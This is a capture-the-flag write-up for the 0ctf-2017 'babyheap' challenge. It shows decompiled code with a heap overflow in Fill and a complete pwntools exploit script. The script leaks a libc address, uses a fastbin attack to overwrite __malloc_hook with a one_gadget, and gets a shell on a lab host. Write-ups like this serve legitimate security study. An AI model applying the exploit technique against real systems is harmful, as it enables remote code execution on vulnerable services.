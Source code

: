 # 0ctf-2017 babyheap
<script type="text/javascript" src="http://cdn.mathjax.org/mathjax/latest/MathJax.js?config=default"></script>
## checksec

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   Yes	0		2	babyheap_69a42acd160ab67a68047ca3f9c390b9

```

## reverse

It is a standard, baby heap elf. We can malloc a content buffer and set the buffer's size through inputting 1，while we can set the size of inputs if we choose 2 to fill the buffer content. If malloc $x$ and input $y$ ($x < y$), the heap buffer will be overflowed.

```c
struct MemItem
{
  __int64 alloc_flag;
  __int64 size;
  unsigned __int8 *addr;
};

__int64 __fastcall Fill(MemItem *a1)
{
  __int64 result; // rax
  int index; // [rsp+18h] [rbp-8h]
  int size; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = get_int();
  index = result;
  if ( (signed int)result >= 0 && (signed int)result <= 15 )
  {
    result = LODWORD(a1[(signed int)result].alloc_flag);
    if ( (_DWORD)result == 1 )
    {
      printf("Size: ");
      result = get_int();
      size = result;
      if ( (signed int)result > 0 )
      {
        printf("Content: ");
        result = read_n(a1[index].addr, size);
      }
    }
  }
  return result;
}
```

## exploit

- Leak: If there are 3 adjacent chunks, we can change the size field of 2nd chunk by overflow 1st chunk. Then we dump 2nd chunk will dump the content of 3rd chunk too.If 3rd chunk is a small bins chunk and is free, we will get a add of $main\_arena+x$.
- Exploit: fasten attack+one_gadget+malloc_hook.

```python
from pwn import *

#context.log_level = 'debug'
#ubuntu_16_04_4_off = 0x3c4b20 - 0xf1147
off = 0x3a5620 - 0x41374
def alloca(size):
    r.sendlineafter("Command: ", '1')
    r.sendlineafter("Size: ", str(size))

def fill(index, content):
    r.sendlineafter("Command: ", '2')
    r.sendlineafter("Index: ", str(index))
    r.sendlineafter("Size: ", str(len(content)))
    r.sendafter("Content: ", content)

def free(index):
    r.sendlineafter("Command: ", '3')
    r.sendlineafter("Index: ", str(index))

def dump(index):
    r.sendlineafter("Command: ", '4')
    r.sendlineafter("Index: ", str(index))
    r.recvuntil("Content: \n")
    content = r.recvline()
    return content

r = remote('192.168.203.131', 2017)
#r = process('./babyheap_69a42acd160ab67a68047ca3f9c390b9',
#        env = {'LD_PRELOAD': './libc.so.6_b86ec517ee44b2d6c03096e0518c72a1'}
#)
#gdb.attach(r, '''
#continue
#''')

alloca(16) # 0
alloca(96) # 1
alloca(16) # 2
alloca(16) # 3
alloca(256) # 4
alloca(512) # 5
#pause()

fill(2, (p64(0) * 3) + p64(0x41)) # wide 3 chunk
fill(4, (p64(0) * 3) + p64(0xf1)) # fake chunk in 4
free(3)
alloca(48) # 3
fill(3, (p64(0) * 3) + p64(0x111))
free(4)

main_arena_addr = u64(dump(3)[-9:-1]) - 0x58
print "[+] main_arena = 0x%x" % main_arena_addr
one_gadget = main_arena_addr - off
print "[+] one_gadget = 0x%x" % one_gadget
malloc_hook = main_arena_addr - 0x10
print "[+] __malloc_hook = 0x%x" % malloc_hook
fill(2, (p64(0) * 3) + p64(0x21))

# fastbin attack
free(1)
fill(0, (p64(0) * 3) + p64(0x71) + p64(malloc_hook - 0x20 - 3))
alloca(96) # 1
alloca(96) # 4
fill(4, '\0' * 3 + p64(0) * 2 + p64(one_gadget))
alloca(20)

r.interactive()

```

